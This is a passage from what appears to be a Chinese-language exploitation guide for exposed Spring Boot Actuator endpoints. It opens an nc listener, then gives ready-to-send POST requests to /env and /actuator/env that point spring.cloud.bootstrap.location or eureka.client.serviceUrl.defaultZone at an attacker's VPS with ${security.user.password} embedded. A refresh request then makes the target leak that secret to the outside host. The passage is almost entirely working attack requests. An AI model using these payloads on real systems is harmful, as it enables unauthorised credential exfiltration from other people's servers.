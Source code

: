 ```
nc -lvk 80
```

**步骤三： 触发对外 http 请求**

* `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```

* `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```

**步骤四： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```
